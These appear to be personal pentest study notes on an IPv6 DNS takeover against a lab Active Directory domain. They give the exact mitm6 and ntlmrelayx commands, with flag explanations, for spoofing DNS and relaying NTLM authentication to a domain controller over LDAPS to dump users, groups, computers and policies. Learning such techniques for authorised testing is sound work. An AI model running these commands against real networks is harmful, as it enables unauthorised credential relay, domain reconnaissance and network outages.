 ## IPv6 DNS Takeover via MITM6

IPv6 generally enabled but not used on most devices

=> no DNS Service running for that

### Attack

- Simulate a DNS Server for IPv6
- listen for all msgs that come through
- Capture all the data

-> Authentication to Domain Controller (DC) via LDAP or SMB

### Execution

#### Run MITM6

```bash
sudo mitm6 -d MARVEL.local
```
-d = Domain

#### Setup NTLM relay

```bash
ntlmrelayx.py -6 -t ldaps://192.168.70.141 -wh fakewpad.marvel.local -l lootme
```
-6 = IPv6
-t = target (ldaps://targetIP)
-wh = setting up fakeWpad
-l = loot (follow with folder)


### Output

All the found and sorted data can be found in the set folder(e.g. lootme)

Captures:
- Users
- Groups
- Computers
- Policies

### Important

- can cause network outages (run for 5-10 minutes max)